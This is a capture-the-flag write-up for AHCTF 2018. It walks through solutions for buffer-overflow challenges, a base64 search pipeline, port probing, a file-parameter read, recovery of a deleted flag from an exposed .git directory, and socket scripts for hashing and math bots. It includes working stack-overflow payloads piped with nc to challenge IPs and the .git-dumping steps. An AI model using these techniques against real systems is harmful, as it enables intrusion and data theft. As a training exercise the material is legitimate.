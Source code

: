 CTF : AHCTF 
LINK: https://www.ahctf.com
AUTHORS: Abraham Adberstein and Abraham Fong 
DATE: Feb 1-7, 2018

----------

**PWN1-EGYPT**
Since the gets function does not check the number of bytes it assigns to buffer, we can overflow the stack.
pwn1.zip 
**Stack**
| buffer 64 bytes |  ret 4 bytes |

    $ { python -c 'print "a"*64 + "\xef\xbe\xad\xde"'; cat; } | nc 54.186.65.159 10001

**PWN2-UZBEKISTAN**
I bet you can't redirect the code flow of this program.
pwn2.zip
**Solution**
If you take a look at the code of pwn2_client, you can use objdump to find the address of the function print_flag function. Since the gets function does not check the number of bytes it assigns to buffer, we can overflow the stack. Then what we want to do is override the return address of the main function. 
**Stack**
| buffer 64 bytes | argc  4 bytes | argv 8 bytes | ret 4 bytes |

    $ objdump -d pwn2_client
    $ { python -c 'print "a"*76 + "\x9d\x84\x04\x08"'; cat; } | nc 54.186.65.159 10002

**LINUX-FOREST-SPAIN**
Have you ever heard of the question: "Where does a wise man hide a leaf?"
**Solution**
There is a folder "data" in the current directory. Inside the "data" directory, there hundres of directories where those directories contains text files with base64 encoded strings. First we get folders with the following name patter "\*.txt" and pass the those folder paths to cat, then we use args again to get each line of those files and decode them. Lastly, we grep the flag. 

     $ find -name "*.txt" | xargs -I f cat f | xargs -I % echo "%" | base64 --decode | grep AHCTF

**LINUX3-CHINA**
I'm pretty sure someone is trying to talk to us on port 10001, but I don't think we can [hear] connect to him from the outside.
**Solution**
We just needed to listen to several ports and listen for incoming data from inside the server.
**Solution**

    import socket
    for port in range(23200,23300):
        try:
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect((hostname,port))
                print s.recv(1024)
            s.close()
        except:
            continue

**WEB4-RUSSIA**
I'm trusting you with my system, please don't use this file to cheat...
Access the challenge at: http://34.216.168.66:8080/dir.php
The flag will be at http://34.216.168.66:8080/flag.txt
**Solution:**
Since the hint was hinting that dir.php was doing something, we passed a common name parameter to see if it did something. 

    http://34.216.168.66:8080/dir.php?file=flag.txt

**WEB6-MOZAMBIQUE**
This is my blog, but you won't find the flag there. I removed it before the last commit.

    http://52.26.43.30/blog

Hint suggests that we need to access past commit data to find a flag. 
Git repository content is written in objects. All of them are stored in .git/objects folder.  First tested to see if it was available by appending /.git after /blog. 
This returned a page with file structure instead of a 404 error, so far so good. 
    http://52.26.43.30/blog/.git 

Git objects can be one of three types: commit, tree and blob.

 - Commit is an information about commit, with current tree (folders and
   files structure) object hash.
 - Tree contains information about folders and files structure - and
   every single folder or file has its own object hash stored in tree
   object. It might be another tree (folder which is one level down
   in the folders structure) or file.
 - Blob is Git object type where files content are saved. In other
   way - if you know an object hash of the particular file, you can
   read content of this file using git cat-file command.

After finding the .git file, we navigate to logs/HEAD file to see history of commits. 
     http://52.26.43.30/blog/.git/logs/HEAD
Here we find two interesting commits with incriminating titles. 
The commit titled *'add flag*' has a hash of `c4db23b282baa2ce1b650dd820f7de00ee82b654` 
where the first 2 chars are the file, and the rest is the name. 
if we navigate to objects/c4/db23blablablabla, we will find ourselves with a file we can download! 

Since we are dealing with git commits, we need to create a dummy Git folder.
In the terminal: 

    $ git init

This will initialize empty Git repository with all required files and folders.
We have to save the downloaded file in your dummy Git folder we created. It is imperative to be sure that you saved it in exactly the same location:

path-to-dummy-git-repository/.git/objects/c4/db23b282baa2ce1b650dd820f7de00ee82b654


These two commands will be used to dig for our key: 
To check the type of object, you can use following command:
$ git cat-file -t c4db23b282baa2ce1b650dd820f7de00ee82b654

To display the content of the object, use this command:
$ git cat-file -p c4db23b282baa2ce1b650dd820f7de00ee82b654

We use these commands to check and read the type of the object. When we look at commit descriptions , we can find information about the actual tree object hash. Remember, the tree contains information about current folder structure. So using the same method (check type and then display content),  we check the tree object we find. 

Once we dig down the tree, eventually we find only one file, index.php and we know it's object hash and type, which is blob! (Remember, a blob  Git object type where files content are saved.)


Once more, git cat file, and you will reveal the contents, which is HTML code. Near the top of the header, we find the Key. :) 





----------


**PROG3-HASHES**
**Solution**
We connect to the server, get the string and strip the value desired to hash. Then, we hash and send it to the server. We loop through this process 100 times to get the flag. 

    import socket       
    import hashlib 
    from time import sleep
    import re
      
    host = "54.186.65.159"  
    port = 20005                
    s = socket.socket()  
    
    while True:
        r =  s.recv(1048)
        print r
        if ":" in r:
                string = r.split(':')[1].replace('\n', '').strip()
                hash = hashlib.sha512()
                hash.update(string)
                result = hash.hexdigest() + "\n"
                s.send(result)
        elif r == "":
                break


**PROG4-MATHBOT**
More hashes incoming. Your hands fast enough?
**Solution**
We connect to the server, use a bit of regex to get the number to sum and send it to the server. We loop through this process 100 times to get the flag.

    import socket       
    import hashlib 
    from time import sleep
    import re
      
    host = "54.186.65.159" 
    port = 20005               
    s = socket.socket()              
    s.connect((host, port))
    
    while True: 
            #receive connection
            r =  s.recv(1048) 
            print r
            if "+" in r: 
                    result = re.match( r'.*\s*What\sis\s(.*)\s\+\s(.*)', r, re.M|re.I)
                    suma = int(result.group(1)) + int(result.group(2))
                    msg = str(suma) + "\n"
                    s.send(msg)
            elif r == "":
                    break





<!--stackedit_data:
eyJoaXN0b3J5IjpbLTMyMzgzMDE0NywtMjEwNjA1ODE3MywtMz
IzODMwMTQ3LC0yMTA2MDU4MTczLC0zMjM4MzAxNDcsLTIxMDYw
NTgxNzMsLTg2NjEzMzYzOF19
-->